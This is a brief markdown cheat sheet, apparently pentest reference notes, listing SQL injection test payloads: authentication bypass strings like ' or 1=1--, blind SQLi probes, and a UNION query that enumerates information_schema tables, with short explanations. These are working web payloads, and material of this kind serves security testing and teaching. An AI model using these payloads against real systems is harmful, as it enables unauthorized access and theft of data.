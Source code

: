 



### Testing for SQLi
````
admin' #
````

````
' or 1=1--'
````


### Testing Blind SQLi
* Blind SQLi queries the database for true and false questions and evaluates the responses from the web server.
````
1' and 1=1
1' order by 1
````

* The following will execute, although the password is wrong. This is because or 1=1 is always a true statement.
````
aaa' or 1=1 #
````



**Information Schema Table**
````
1' union select table_name, 2 from information_schema.tables
````
